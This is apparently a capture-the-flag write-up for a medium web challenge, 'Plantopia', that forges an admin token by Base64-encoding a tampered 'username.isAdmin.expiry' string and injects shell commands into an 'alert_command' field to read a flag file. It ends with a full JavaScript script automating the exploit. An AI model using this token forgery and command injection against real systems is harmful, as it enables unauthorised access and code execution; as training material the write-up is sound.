



# Plantopia

**Description:**

<small>Author: @HuskyHacks</small><br><br>Plantopia is our brand new, cutting edge plant care management website! Built for hobbiests and professionals alike, it's your one stop shop for all plant care management. <br><br> Please perform a penetration test ahead of our site launch and let us know if you find anything.
<br><br> Username: <code>testuser</code>
<br> Password: <code>testpassword</code>
<br><br> <b>Press the <code>Start</code> button on the top-right to begin this challenge.</b>


**Category:** Web

**Difficulty:** medium

## Solution

Upon accessing the website, I encountered the login screen. Notably, I discovered a link to API documentation in the top-left corner, which directed me to a Swagger UI page.



By clicking the Authorize button, I learned how to create an API key. The API used a Bearer token derived from a Base64-encoded cookie in the format `username.isAdmin.expirationTime`.


An example provided was `admin.1.1695658567`. This suggested that the second item, isAdmin, could be manipulated.

Using the browser console, I created a token for testuser
```javaScript
const currentTime = Math.floor(Date.now() / 1000);
const expirationTime = currentTime + 3600;

const userString = `testuser.1.${expirationTime}`;
const base64Token = btoa(userString);
console.log(base64Token);
```

With the generated token, I utilized the Swagger UI to try out the admin log endpoint. The logs displayed detailed command execution history and user activity, indicating that the application might be running in debug mode.

I examined the `/api/admin/settings` endpoint, which had a request example 
```json
{
  "plant_id": 1,
  "alert_command": "/usr/sbin/sendmail -t",
  "watering_threshold": 50
}
```

Noticing that the command was restricted and must include `/usr/sbin/sendmail`, I attempted to inject a command by appending `; ls` to the command

```json
{
  "plant_id": 1,
  "alert_command": "/usr/sbin/sendmail; ls",
  "watering_threshold": 50
}
```

Next, I triggered the command via the `/api/admin/sendmail` endpoint, which executed the command. Upon checking the logs, I found an entry indicating a file named flag.txt



I modified the alert_command to read the flag
```json
{
  "plant_id": 1,
  "alert_command": "/usr/sbin/sendmail; cat flag.txt",
  "watering_threshold": 50
}
```

After executing the send mail command again, I checked the logs and successfully retrieved the flag

`flag{c29c4d53fc432f7caeb573a9f6eae6c6}`


To streamline the process, I scripted the entire sequence:
```javascript
async function executeFetchSequence() {
  const currentTime = Math.floor(Date.now() / 1000);
  const expirationTime = currentTime + 3600;

  //console.log(expirationTime);

  const userString = `testuser.1.${expirationTime}`;
  const base64Token = btoa(userString);
  const portNum = "32324"
  //console.log(base64Token);

  try {
    // First fetch to edit plant
    const editResponse = await fetch(`http://challenge.ctf.games:${portNum}/api/plants/1/edit`, {
      headers: {
        "accept": "application/json",
        "accept-language": "en-US,en;q=0.9",
        "authorization": base64Token,
        "cache-control": "no-cache",
        "content-type": "application/json",
        "pragma": "no-cache"
      },
      referrer: "http://challenge.ctf.games:${portNum}/swagger/",
      referrerPolicy: "strict-origin-when-cross-origin",
      body: JSON.stringify({
        description: "A beautiful sunflower.",
        sunlight_level: 80,
        watering_threshold: 50,
        alert_command: "/usr/sbin/sendmail -t; cat flag.txt"
      }),
      method: "POST",
      mode: "cors",
      credentials: "include"
    });
    console.log("Edit response:", editResponse.status);

    // Second fetch to send mail
    const sendMailResponse = await fetch(`http://challenge.ctf.games:${portNum}/api/admin/sendmail`, {
      headers: {
        "accept": "application/json",
        "accept-language": "en-US,en;q=0.9",
        "authorization": base64Token,
        "cache-control": "no-cache",
        "content-type": "application/json",
        "pragma": "no-cache"
      },
      referrer: "http://challenge.ctf.games:${portNum}/swagger/",
      referrerPolicy: "strict-origin-when-cross-origin",
      body: JSON.stringify({ plant_id: 1 }),
      method: "POST",
      mode: "cors",
      credentials: "include"
    });
    console.log("Send mail response:", sendMailResponse.status);

    // Third fetch to get logs
    const logsResponse = await fetch(`http://challenge.ctf.games:${portNum}/api/admin/logs`, {
      headers: {
        "accept": "application/json",
        "accept-language": "en-US,en;q=0.9",
        "authorization": "dGVzdHVzZXIuMS4xNzI5ODY0MTMz",
        "cache-control": "no-cache",
        "pragma": "no-cache"
      },
      referrer: "http://challenge.ctf.games:${portNum}/swagger/",
      referrerPolicy: "strict-origin-when-cross-origin",
      body: null,
      method: "GET",
      mode: "cors",
      credentials: "include"
    });

    if (!logsResponse.ok) {
      console.log('Error:', logsResponse.statusText);
      return;
    }

    const logData = await logsResponse.text();
    const flagMatch = logData.match(/flag\{[^\}]*\}/); // Regular expression to find `flag{...}`
    if (flagMatch) {
      console.log(flagMatch[0]); // Outputs `flag{...}`
    } else {
      console.log("Flag not found");
    }

  } catch (error) {
    console.error("Error in fetch sequence:", error);
  }
}

// Run the function
executeFetchSequence();

```